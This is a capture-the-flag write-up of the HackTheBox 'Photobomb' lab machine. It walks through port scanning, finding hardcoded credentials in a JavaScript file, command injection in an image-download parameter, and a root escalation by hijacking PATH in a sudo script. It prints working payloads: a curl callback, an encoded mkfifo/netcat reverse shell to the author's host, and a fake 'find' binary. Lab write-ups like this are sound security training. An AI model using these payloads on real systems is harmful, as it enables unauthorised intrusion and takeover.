

[Easy] Photobomb

Compromised on February 7, 2023Written on February 4, 2024
Photobomb is my fifth machine to compromise on HackTheBox. This Linux machine features hardcoded credentials in a .js file, Command Injection vulnerability for a low-privileged user, and a script that uses a binary without specifying its absolute path.
Enumeration
Nmap
Let's start with an Nmap scan.
nmap 10.10.11.182 -p- --min-rate=5000We see that only ports 22 and 80 are open. Let's get more info on them by using Nmap.
nmap 10.10.11.182 -p22,80 -sC -sV --min-rate=5000Website - TCP Port 80
Navigating to the website brings an error.
For this, I added photobomb.htb to my /etc/hosts file and pointed it to 10.10.11.182.
Navigating to the website again brings us this:
Clicking around the website, there is a "click here!" button on the front page. This will redirect us to /printer, but it requires authentication.
Common credentials don't work, but if we view the source code, we can find a file named photobomb.js. Inside the .js file, we can also find credentials to the /printer subdirectory.
We can now access the /printer subdirectory, which brings us this page:
Exploring the page, it has a functionality that downloads a selected image in a desired size and format.
My initial thoughts are that the website might be using a system command to convert an original image to a specified size and format. It is unlikely that the website is storing a different image for different dimensions and formats. To confirm this, I used Burpsuite to intercept the download request and change the requested dimension to a value that's not listed as an option, such as 10x10. It successfully downloads.
This means we could try using Command Injection to execute commands on the machine.
Exploit
To confirm the vulnerability, we start up an HTTP server that will show all requests sent to our machine.
python3 -m http.serverThen we try to execute a command on the target machine that will send a request to our HTTP server. After trial and error, the "filetype" parameter is vulnerable to Command Injection.
filetype=png;curl%20http://10.10.14.3:8000/testNow let's get a reverse shell on the target machine. First we'll start our listener.
nc -lvnp 4444Then we'll execute a command on the target machine to send a reverse shell to our listener.
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.3%204444%20%3E%2Ftmp%2FfWe have a reverse shell on the target machine as user "wizard".
We got the user flag.
cdcat user.txtPrivilege Escalation
Now that we have a low-privileged user on the target machine, I searched for commands that the user can execute as root. It seems like we can run a bash script as root. Additionally, the "SETENV" tells us that we set our own environment variables.
sudo -lInspecting the /opt/cleanup.sh script, there are commands being used that are not using an absolute path. The last line executes the "find" binary without using an absolute path.
cat /opt/cleanup.shThis means that the system will use the $PATH variable to find where the "find" binary is. When executing the /opt/cleanup.sh script, the system will parse through the $PATH variable (This variable contains locations in the file system) from left to right and tries to find the "find" binary in those locations. Due to "SETENV", we can change the $PATH variable to look in a location that has a malicious "find" binary and execute it.
First I create my malicious "find" binary in the /tmp directory, which simply executes a bash shell. I also added execute permissions to it.
echo "/bin/bash" > /tmp/findchmod +x /tmp/findThen we execute the /opt/cleanup.sh script as root, while also adding /tmp into the $PATH variable that the system will use as root. When the script runs, the system will check our $PATH variable first and checks for the "find" binary in the /tmp directory. Then the system will use our created "find" binary and spawns a root shell.
sudo PATH=/tmp:$PATH /opt/cleanup.shwhoamiWe got the root flag.
cat /root/root.txt